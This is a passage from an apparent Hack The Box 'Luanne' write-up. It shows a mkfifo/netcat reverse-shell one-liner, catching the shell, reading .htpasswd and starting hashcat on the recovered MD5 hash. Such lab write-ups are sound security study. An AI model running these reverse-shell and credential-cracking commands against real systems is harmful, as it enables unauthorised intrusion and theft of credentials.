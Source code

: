 > `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f`

reverse shell with nc \(without -e\) for openbsd

## Initial Foothold

```bash
┌──(zweilos㉿kali)-[~/htb/luanne]
└─$ script luanne-init  
Script started, output log file is 'luanne-init'.
┌──(zweilos㉿kali)-[~/htb/luanne]
└─$ bash
zweilos@kali:~/htb/luanne$ nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.10.14.187] from (UNKNOWN) [10.10.10.218] 54839
sh: can't access tty; job control turned off
$ id && hostname
uid=24(_httpd) gid=24(_httpd) groups=24(_httpd)
luanne.htb
```

worked!

### Enumeration as `_httpd`

```text
$ which python3
which: PATH environment variable is not set
```

Checked to see if python3 was installed, but got an error that the PATH was not set. After some testing I found that my usual TTY upgrades were not working.

```text
$ pwd
/var/www
$ ls -la
total 20
drwxr-xr-x   2 root  wheel  512 Nov 25 11:27 .
drwxr-xr-x  24 root  wheel  512 Nov 24 09:55 ..
-rw-r--r--   1 root  wheel   47 Sep 16  2020 .htpasswd
-rw-r--r--   1 root  wheel  386 Sep 17  2020 index.html
-rw-r--r--   1 root  wheel   78 Nov 25 11:38 robots.txt
$ cat .htpasswd 
webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0
```

found an MD5 hash in `.htpasswd`

```text
┌──(zweilos㉿kali)-[~/htb/luanne]
└─$ hashcat -O -D1,2 -a0 -m500 hash /usr/share/wordlists/rockyou.txt --username
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 15

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Optimized-Kernel
```